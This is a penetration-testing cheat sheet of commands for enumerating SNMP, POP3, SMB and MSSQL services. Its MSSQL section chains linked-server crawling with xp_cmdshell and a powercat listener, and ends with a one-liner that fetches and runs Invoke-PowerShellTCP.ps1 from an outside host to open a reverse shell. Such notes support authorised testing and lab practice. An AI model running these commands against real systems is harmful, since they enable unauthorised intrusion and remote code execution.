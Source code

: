 ### SNMP

```bash
snmp-check ${box_ip}
```

### IMAP


### POP3

banner grabbing
```
nc -nv ${box_ip} 110
openssl s_client -connect ${box_ip}:110 -crlf -quiet

nc -nv ${box_ip} 995
openssl s_client -connect ${box_ip}:995 -crlf -quiet
```

connect
```
telnet ${box_ip} 110
USER john
PASS password
list
redr 1 (messange number or id)
```

### enum4linux

```bash
enum4linux -a ${box_ip} | tee ${loc}/2-enum/enum4linux.md
```

### MSSQL Client

```bash
${imp_dir}/mssqlclient.py USER@${box_ip}
${imp_dir}/mssqlclient.py USER@${box_ip} -windows-auth
```

### MSSQL Enum

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-Server/

```
Get-SQLInstanceDomain

Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Threads 10

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'whoami\'" | ft
powercat -l -v -p 443 -t 1000

Get-SQLServerLinkCrawl -Instance ACCESIBLE_ONE -Query "exec master..xp_cmdshell \'powershell iex (New-Object Net.WebClient).DownloadString(\'\'http://x.x.x.x/Invoke-PowerShellTCP.ps1\'\')\'" | ft
```

### Heidi SQL

> https://0x4rt3mis.github.io/posts/Active-Directory-MSSQL-HeidSQL/